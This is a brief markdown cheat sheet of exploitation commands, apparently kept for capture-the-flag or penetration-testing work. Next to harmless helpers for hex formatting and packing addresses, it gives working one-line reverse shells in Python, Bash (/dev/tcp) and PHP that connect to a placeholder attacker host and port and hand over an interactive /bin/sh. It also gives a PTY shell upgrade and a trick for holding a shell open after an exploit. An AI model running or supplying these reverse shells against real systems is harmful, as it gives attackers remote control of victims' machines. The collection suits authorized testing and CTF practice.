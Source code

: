
# Useful Scripts & Commands 🧰

## Commands:

### Python 

- Convert numbers into a string in hex format (0x prefix with zero padding): `"{:#04x}.format(n)"`

- Print an address in little endian:
      
       python -c "import struct; print(struct.pack('<I',0xdeadbeef))"


- Oneline python revshell:


      python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("{HOST_IP}",{PORT}));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
        
- Shell upgrade: 

      python -c "import pty;pty.spawn('/bin/bash')"

### Bash

- Maintain shell after running an exploiting: `(./exploit | cat ) | ./vuln`
- Simple Bash revshell: 
    
      bash -i >& /dev/tcp/{HOST_IP}/{PORT} 0>&1

### PHP

- Oneline revshell: 

      php -r '$sock=fsockopen("{HOST_IP}",80);exec("/bin/sh -i <&3 >&3 2>&3");'
